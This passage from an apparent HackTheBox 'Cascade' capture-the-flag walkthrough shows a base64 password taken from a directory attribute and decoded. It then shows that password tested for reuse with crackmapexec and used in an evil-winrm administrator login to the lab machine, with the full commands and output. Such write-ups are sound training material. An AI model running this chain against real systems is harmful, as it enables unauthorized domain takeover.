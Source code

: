 The last one is really interesting, because it’s the temporary administrator account mentioned in the old email I found earlier (which also said it was using the same password as the normal admin account).

Immediately `cascadeLegacyPwd : YmFDVDNyMWFOMDBkbGVz` jumps out. It decodes to `baCT3r1aN00dles`:

```bash
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Cascade]
└─$ echo YmFDVDNyMWFOMDBkbGVz | base64 -d
baCT3r1aN00dles
```

Checking out whether this password works for the new administrator account as well:

```bash
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Cascade]
└─$ crackmapexec winrm 10.10.10.182 -u administrator -p baCT3r1aN00dles
WINRM       10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
WINRM       10.10.10.182    5985   CASC-DC1         [+] CASCADE\administrator:baCT3r1aN00dles (Pwn3d!)

```

And it does!!!

Logging in as an administrator:

```bash
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Cascade]
└─$ evil-winrm -u administrator -p baCT3r1aN00dles -i 10.10.10.182

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
cascade\administrator

```

Root Flag:

```bash
*Evil-WinRM* PS C:\Users\Administrator\desktop> cat root.txt
...SNIP...
```
